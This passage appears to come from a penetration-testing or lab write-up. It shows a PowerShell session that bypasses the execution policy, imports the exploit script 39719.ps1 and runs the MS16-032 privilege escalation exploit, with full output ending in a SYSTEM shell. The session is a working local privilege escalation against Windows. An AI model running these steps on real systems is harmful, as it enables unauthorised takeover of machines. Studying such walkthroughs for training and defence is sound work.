 ```powershell
-a---        11/25/2016  11:49 PM       1113 KeePass 2.lnk


PS C:\Users\e.lindsey\Desktop> powershell -ExecutionPolicy Bypass
Windows PowerShell
Copyright (C) 2009 Microsoft Corporation. All rights reserved.

PS C:\Users\e.lindsey\Desktop> Import-Module .\39719.ps1
PS C:\Users\e.lindsey\Desktop> Invoke-MS16-032
         __ __ ___ ___   ___     ___ ___ ___
        |  V  |  _|_  | |  _|___|   |_  |_  |
        |     |_  |_| |_| . |___| | |_  |  _|
        |_|_|_|___|_____|___|   |___|___|___|

                       [by b33f -> @FuzzySec]

[?] Operating system core count: 4
[>] Duplicating CreateProcessWithLogonW handle
[?] Done, using thread handle: 1064

[*] Sniffing out privileged impersonation token..

[?] Thread belongs to: svchost
[+] Thread suspended
[>] Wiping current impersonation token
[>] Building SYSTEM impersonation token
[?] Success, open SYSTEM token handle: 1140
[+] Resuming thread..

[*] Sniffing out SYSTEM shell..

[>] Duplicating SYSTEM token
[>] Starting token race
[>] Starting process race
[!] Holy handle leak Batman, we have a SYSTEM shell!!

PS C:\Users\e.lindsey\Desktop>
```

Once the command successfully runs, you should see a Command Prompt pop up with Administrative Access.
